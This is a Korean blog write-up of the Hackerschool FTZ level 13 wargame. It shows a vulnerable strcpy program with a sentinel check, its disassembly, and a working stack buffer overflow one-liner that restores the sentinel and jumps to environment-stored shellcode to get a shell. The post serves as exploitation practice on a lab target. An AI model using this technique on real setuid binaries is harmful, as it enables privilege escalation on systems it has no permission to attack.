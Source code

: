 ```yaml
---
date: '2022-10-03'
before : '2022-10-02'
after : '2022-10-04'
title: '해커스쿨 FTZ 레벨 13'
categories: ['KOR','pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

또 다시 나온 BOF 문제이다. 하지만 이번 문제는 아주 조금 더 어려운게, 중간에 long i라는 값을 끼워넣어서, 이 값이 변조되었을 경우는 프로그램의 실행을 거부하는 형식의, 아주 기초적인 방어를
하고 있다. 이런 경우에는 그냥 Dummy코드를 짤 때, 저 long i 변수의 정확한 위치를 파악해서 Dummy코드 사이 i값이 오는 위치에 i 값을 정확하게 넣어주면 된다. 바로 코드로 들어가보자.

### 1. Level 13

일단 hint를 확인해 보면 attackme의 소스코드가 다음과 같이 나온다. 

```
#include <stdlib.h>

main(int argc, char *argv[])
{
   long i=0x1234567;
   char buf[1024];

   setreuid( 3094, 3094 );
   if(argc > 1)
   strcpy(buf,argv[1]);

   if(i != 0x1234567) {
   printf(" Warnning: Buffer Overflow !!! \n");
   kill(0,11);
   }
}
```

"들어가기 전에" 에서 설명했지만, 이번에는 i값이 위조되었는지를 확인하는 코드가 if 문에 작성되어있다. 따라서 우리의 더미 데이터에도 i의 본래 값이 들어가있어야 한다.


얼른 카피해서 test 파일을 만들고 gdb로 disassemble 해보자. disassemble 하니 다음과 같은 어셈블리 코드가 실행되었다는 것을 알 수 있다.

```
0x080483c8 <main+0>:    push   ebp
0x080483c9 <main+1>:    mov    ebp,esp
0x080483cb <main+3>:    sub    esp,0x418
0x080483d1 <main+9>:    and    esp,0xfffffff0
0x080483d4 <main+12>:   mov    eax,0x0
0x080483d9 <main+17>:   sub    esp,eax
0x080483db <main+19>:   mov    DWORD PTR [ebp-12],0x1234567
0x080483e2 <main+26>:   sub    esp,0x8
0x080483e5 <main+29>:   push   0xc16
0x080483ea <main+34>:   push   0xc16
0x080483ef <main+39>:   call   0x80482e8 <setreuid>
0x080483f4 <main+44>:   add    esp,0x10
0x080483f7 <main+47>:   cmp    DWORD PTR [ebp+8],0x1
0x080483fb <main+51>:   jle    0x8048417 <main+79>
0x080483fd <main+53>:   sub    esp,0x8
0x08048400 <main+56>:   mov    eax,DWORD PTR [ebp+12]
0x08048403 <main+59>:   add    eax,0x4
0x08048406 <main+62>:   push   DWORD PTR [eax]
0x08048408 <main+64>:   lea    eax,[ebp-1048]
0x0804840e <main+70>:   push   eax
0x0804840f <main+71>:   call   0x8048308 <strcpy>
0x08048414 <main+76>:   add    esp,0x10
```
확인해 보니 우리의 1024크기의 배열은 ebp-1048번째 위치에 생성되었고, i의 값은 ebp-12의 위치에 생성되었다. 이를 이용해 대략적인 레지스터의 스택을 파악해볼 수 있다. 다음의 그림을 그려보았다.

![register_outlook](../contentImages/Level13.png)


쉘코드를 짜고, 주소를 확인해보니 다음과 같다 :
```
./getenv => 0xbffffc1a => \x1a\xfc\xff\xbf // 원래 주소를 little endian으로 변환했다.
```
환경변수의 생성과 주소 파악하는법에 대해 모른다면 다음의 글을 참조하자! : [FTZ Level 12](<https://hosahn.github.io/221002/>)


이제 필요한 도구가 모두 모였다. attackme 함수를 실행하고, argv로 다음과 같은 문장을 넘겨주자.

```
 ./attackme `python -c 'print "\x90"*1036+"\x67\x45\x23\x01"+"\x90"*12+"\x1a\xfc\xff\xbf"'`
```
설명하자면 1036개의 NOP 더미를 넘기고, ebp-8시점에서 i의 주소값을 정확히 정의했으며, 그 후에 또 12개의 NOP 더미를 넘기고 나서 shell코드의 주소를 넘겨주었다.


이해가 가지 않는다면 위의 그림을 다시한번 확인해보자. 실행시키니 shell을 얻을 수 있었다. my-pass로 비밀번호를 확인하였다.


비밀번호 : what the n(여러분들이 아는 그 후드의 단어..) want? (FTZ가 미친듯 하다. 내 외국인 친구들도 보는 블로그라 단어를 쓰진 않겠다..) 

---
## Source

- 해커스쿨 FTZ
- Me!